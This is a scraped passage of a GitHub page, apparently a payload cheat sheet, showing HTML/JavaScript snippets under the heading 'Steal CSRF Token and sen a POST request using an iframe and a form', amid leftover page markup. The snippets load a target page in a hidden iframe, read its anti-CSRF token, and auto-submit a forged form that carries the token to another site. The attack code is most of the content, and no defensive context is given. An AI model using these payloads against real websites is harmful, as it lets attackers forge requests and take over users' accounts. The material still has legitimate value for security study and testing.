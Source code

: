 <script type=&quot;text/javascript&quot;>
function f1(){
    x1=document.getElementById(&quot;i1&quot;);
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById(&quot;token&quot;).value;
    
    document.getElementById(&quot;token&quot;).value=t;
    document.getElementById(&quot;form1&quot;).submit();
}
</script> 
<iframe id=&quot;i1&quot; style=&quot;display:none&quot; src=&quot;http://google.com?param=VALUE&quot; onload=&quot;javascript:f1();&quot;></iframe>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-steal-csrf-token-and-sen-a-post-request-using-an-iframe-and-a-form" class="anchor" aria-hidden="true" href="#steal-csrf-token-and-sen-a-post-request-using-an-iframe-and-a-form"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal CSRF Token and sen a POST request using an iframe and a form</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"&gt;&lt;/iframe&gt;

&lt;script&gt; 
function read()
{
    var name = 'admin2';
    var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
    document.writeln('&lt;form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data"&gt;');
    document.writeln('&lt;input id="username" type="text" name="username" value="' + name + '" /&gt;&lt;br /&gt;');
    document.writeln('&lt;input id="token" type="hidden" name="token" value="' + token + '" /&gt;');
    document.writeln('&lt;input type="submit" name="submit" value="Submit" /&gt;&lt;br/&gt;');
    document.writeln('&lt;/form&gt;');
    document.forms[0].submit.click();
}
&lt;/script&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<iframe id=&quot;iframe&quot; src=&quot;http://google.com?param=VALUE&quot; width=&quot;500&quot; height=&quot;500&quot; onload=&quot;read()&quot;></iframe>
